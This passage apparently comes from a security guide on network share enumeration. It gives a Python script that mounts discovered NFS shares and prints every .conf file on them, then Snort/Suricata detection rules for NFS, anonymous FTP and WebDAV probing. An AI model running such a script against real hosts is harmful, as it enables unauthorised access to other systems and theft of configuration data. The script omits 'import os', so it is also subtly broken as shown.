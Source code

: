 ### With Custom Scripts
```python
# Automated share mounting and data extraction
import json

with open('share_details.json') as f:
    shares = json.load(f)

for host in shares:
    for share in host['accessible_shares']:
        if share['type'] == 'NFS':
            # Mount NFS
            os.system(f"mount -t nfs {share['path']} /mnt/nfs_{host['ip']}")
            # Search for files
            os.system(f"find /mnt/nfs_{host['ip']} -name '*.conf' -exec cat {{}} \;")
```

## Detection & Defense

### Detection Signatures

**Network IDS (Snort/Suricata)**:
```
# NFS showmount enumeration
alert tcp any any -> $HOME_NET 2049 (
    msg:"ET SCAN NFS Showmount Request";
    flow:to_server,established;
    content:"|00 00 00 00 00 00 00 01|";
    threshold:type threshold, track by_src, count 10, seconds 60;
    sid:2000100;
)

# Anonymous FTP login attempts
alert tcp any any -> $HOME_NET 21 (
    msg:"ET FTP Anonymous Login Attempt";
    flow:to_server,established;
    content:"USER anonymous";
    threshold:type threshold, track by_src, count 3, seconds 60;
    sid:2000101;
)

# WebDAV enumeration
alert tcp any any -> $HOME_NET any (
    msg:"ET SCAN WebDAV OPTIONS Request";
    flow:to_server,established;
    content:"OPTIONS ";
    content:"WebDAV";
    threshold:type threshold, track by_src, count 5, seconds 60;
    sid:2000102;
)
```
